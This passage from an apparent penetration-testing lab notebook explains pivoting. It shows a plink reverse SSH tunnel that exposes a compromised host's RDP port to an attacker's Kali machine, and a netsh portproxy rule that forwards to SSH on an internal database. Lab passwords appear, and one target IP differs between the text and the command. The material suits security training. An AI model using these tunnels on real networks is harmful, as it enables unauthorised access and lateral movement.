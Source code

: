 {% code overflow="wrap" %}
```powershell
cmd.exe /c echo y | .\plink.exe -ssh -l kali -pw kali -R 127.0.0.1:9833:127.0.0.1:3389 192.168.45.235
```
{% endcode %}

### Netsh

**Network Shell** (`netsh`) is a native Windows tool use to configure network settings, including port forwarding via `portproxy` within the `interface` context.

> _The `netsh interface portproxy` command requires admin rights, so UAC may block changes in some cases. In this example, we’re using an admin RDP session, so UAC isn’t an issue._

In our scenario:

* `MULTISERVER03` (`192.168.246.64`) has TCP ports `80` and `3389` open.
* `CONFLUENCE01` (`192.168.246.63`) isn't accessible on the WAN interface.
* `MULTISERVER03` allows all outbound traffic.

Our aim is to SSH directly from Kali to `PGDATABASE01` (`10.4.246.125`) by creating a port forward on `MULTISERVER03`.

<figure><img src="https://x7331.gitbook.io/~gitbook/image?url=https%3A%2F%2F3960676229-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FmjLkek16kB60c2WFd5lf%252Fuploads%252FSbW5WjPi2zyFrLdbKpM0%252Fport_forward_netsh.png%3Falt%3Dmedia%26token%3Df097857d-1ccc-4807-a01a-095608933697&#x26;width=768&#x26;dpr=4&#x26;quality=100&#x26;sign=afa482c8&#x26;sv=2" alt=""><figcaption></figcaption></figure>

{% tabs %}
{% tab title="1. RDP" %}
RDP directly into `MULTISERVER03` from Kali.

```bash
$ xfreerdp /u:rdp_admin /p:P@ssw0rd! /v:192.168.246.64
```
{% endtab %}

{% tab title="2. Port Forward" %}
Open an admin `cmd.exe`, run `netsh` to add a `portproxy` rule (v4tov4) that listens on port `2222` at `MULTISERVER03` and forwards to port `22` on `PGDATABASE01`.

{% code overflow="wrap" %}
```powershell
C:\Windows\system32>netsh interface portproxy add v4tov4 listenport=2222 listenaddress=192.168.246.64 connectport=22 connectaddress=10.4.246.215

C:\Windows\system32>netstat -anp TCP | find "2222"
  TCP    192.168.246.64:2222    0.0.0.0:0              LISTENING
  
C:\Windows\system32>netsh interface portproxy show all

Listen on ipv4:             Connect to ipv4:

Address         Port        Address         Port
--------------- ----------  --------------- ----------
192.168.246.64  2222        10.4.246.215    22
```
{% endcode %}
{% endtab %}
{% endtabs %}
